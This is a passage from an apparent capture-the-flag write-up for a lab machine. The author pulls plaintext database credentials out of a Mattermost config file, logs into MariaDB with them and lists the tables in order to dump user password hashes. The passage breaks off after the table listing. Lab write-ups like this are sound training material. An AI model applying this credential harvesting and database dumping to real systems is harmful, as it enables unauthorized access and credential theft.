             "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
            "DataSourceReplicas": [],

We connect to the mysql database, enumerate the tables and dump the users and
password from the `Users` table.

    :::text
    maildeliverer@Delivery:~$ #mmuser:Crack_The_MM_Admin_PW
    maildeliverer@Delivery:~$ mysql -u mmuser -p
    Enter password:
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 382
    Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    MariaDB [(none)]> show database
        -> ;
    ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'database' at line 1
    MariaDB [(none)]> SHOW DATABASES;
    +--------------------+
    | Database           |
    +--------------------+
    | information_schema |
    | mattermost         |
    +--------------------+
    2 rows in set (0.001 sec)

    MariaDB [(none)]> use mattermost;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    MariaDB [mattermost]> show tables;
    +------------------------+
    | Tables_in_mattermost   |
    +------------------------+
    | Audits                 |
    | Bots                   |
    <SNIP>
    | UserAccessTokens       |
    | UserGroups             |
    | UserTermsOfService     |
    | Users                  |
    +------------------------+
    46 rows in set (0.001 sec)
